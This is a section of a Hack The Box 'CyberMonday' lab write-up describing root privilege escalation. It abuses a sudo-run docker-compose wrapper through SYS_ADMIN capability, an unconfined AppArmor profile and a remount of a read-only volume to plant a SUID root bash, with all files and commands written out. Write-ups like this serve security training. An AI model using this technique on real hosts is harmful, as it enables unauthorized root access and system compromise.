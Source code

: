 # Composing Root Access

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
**[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)**

Okay, I know that getting to user was a slog, but getting root is much easier, I promise. Look this is the last part left. After doing our initial enumeration again, we don't find much that could be exploited except for a [[python|Python]] script called `secure_compose.py`. We're able to read the file so let's view it and see what's going on.
```python
#!/usr/bin/python3
import sys, yaml, os, random, string, shutil, subprocess, signal

def get_user():
    return os.environ.get("SUDO...
```

It looks like this script takes a [[docker|docker-compose.yml]] file from a user, builds any images in it, and runs the containers. What makes it secure is the fact that you're unable to create privileged containers, and all file mounts are restricted to specific places and must be read only. It also checks you're not cheating the file location using a Symlink. Lucky for us this is all it checks, and Docker has a number of features that let us abuse this script to gain root. In our case, we're simply going to create a [[suid|SUID]] `bash` executable that will let us gain a root shell. But how are we going to do that if all our mounts are read only? Well remount them as read/write of course.

First we need to prepare a `docker-compose.yml`, `Dockerfile`, and `run.sh` file for our container. In theory you could do everything in the `docker-compose` but we're going to keep each part separate and simple so it's clear what's happening. In order to remount a directory, we need to give our container the `SYS_ADMIN` capability and add the security option `apparmor:unconfined`. As for the image to use, we'll go back to our trusty `cybermonday_api` since we know the host is already running it. As the script copies our `docker-compose` file to a temporary folder, we'll need to specify the location of the `Dockerfile`.

So our `docker-compose.yml` should look like:
```yaml
version: '3'
services:
  exploit:
    build: /home/john/docker
    volumes:
      - /home/john/docker:/mnt:ro
    cap_add:
      - SYS_ADMIN
    security_opt:
      - apparmor:unconfined
```

Our `Dockerfile` should look like:
```dockerfile
FROM cybermonday_api:latest
COPY run.sh /opt/run.sh
CMD /bin/sh /opt/run.sh
```

And finally for our script we'll run:
```bash
mount -o remount,rw /mnt
cp /bin/bash /mnt/bash
chown root:root /mnt/bash
chmod 4777 /mnt/bash
```

Upload these all to a folder called `docker` in the home directory for `john`. It's easier to keep track of everything that way and we can just delete the folder to clean up once we're done so it's not spoilt for the next person. Once you're got everything ready it's time to run secure compose. 
```bash
sudo /opt/secure_compose.py docker-compose.yml
```

`ls` our directory and we should see a shiny new `bash` executable. Let's try running it now.
```bash
./bash -p

./bash: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.33' not found...
```

Oh dear. It looks like the `cybermonday_api` image uses a different version of `glibc`. Not to worry, there is one place where we know that we have a working copy of `bash`; the host itself. Let's change our `run.sh` script slightly.
```bash
mount -o remount,rw /mnt
chown root:root /mnt/bash
chmod 4777 /mnt/bash
```

Then we just copy `bash` into our `docker` directory, and run the `secure_compose` script again.
```bash
cp /bin/bash ~/docker
sudo /opt/secure_compose.py docker-compose.yml
./bash -p

bash-5.1# whoami
root
```

Copy the root flag from `/root/root.txt` and delete the `~/docker` directory, then celebrate that you've finished this machine.